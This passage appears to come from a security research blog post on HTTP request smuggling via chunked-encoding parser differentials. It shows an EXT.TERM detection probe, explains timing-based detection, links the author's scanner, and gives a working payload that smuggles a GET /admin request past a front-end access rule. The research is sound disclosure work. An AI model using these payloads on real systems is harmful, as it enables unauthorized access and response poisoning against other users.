 <div style="flex: 1;">
<pre><code>POST / HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
2;<span class="http-line-break">\n</span>
xx<span class="http-line-break">\r\n</span>
22<span class="http-line-break">\r\n</span>
c<span class="http-line-break">\r\n</span>
AAAABBBBCCCC<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one">DDDDEEEEFFFF<span class="http-line-break">\r\n</span><span class="http-highlight-text">dropped by front-end</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
</span></code></pre>
<p style="text-align: center; font-weight: bold;">EXT.TERM probe</p>
</div>
</div>

In each of the example probes above, a proxy with the corresponding parsing flaw will interpret the first `0\r\n\r\n` sequence as the terminating zero-sized chunk, causing it to drop the part of the request marked in red. A vulnerable server receiving the request without the last part will expect more data to arrive, causing it to hang and eventually time out. This results in an easily identifiable time delay. 

I've written a scanner script I call [smugchunks](https://github.com/JeppW/smugchunks) for automating these vulnerability discovery techniques. For those interested, its source code is publicly available on GitHub and includes payloads for TERM.SPILL and SPILL.TERM detection as well.

### Exploitation
Exploiting chunk parser differentials is really not much different from exploiting any other kind of request smuggling vulnerability; they can used for the same attacks you know and love, such as circumventing front-end security controls and serving malicious responses to unsuspecting live clients. 

In the interest of empowering readers to apply these techniques in practice, I've included a brief discussion on exploitation with some examples here. If you're already well-versed in request smuggling, you will probably find nothing new in this section – feel free to skip ahead.

#### Bypassing front-end rules
As a smuggled request (by its very definition) is not interpreted as a request by the front-end proxy, it will not be subjected to any access control rules the front-end may enforce, nor will the front-end rewrite the headers of the request as it would normally. Depending on the nature and purpose of the proxy in question, bypassing these front-end operations can be hugely impactful.

Consider, for example, a front-end that restricts access to `/admin`. By exploiting a TERM.EXT vulnerability, we can circumvent this access control rule using a payload like the one below.

<pre><code>GET / HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
2;<span class="http-line-break">\n</span>
xx<span class="http-line-break">\r\n</span>
47<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span> 
<span class="http-line-break">\r\n</span>
GET /admin HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
0<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span> 
</code></pre>
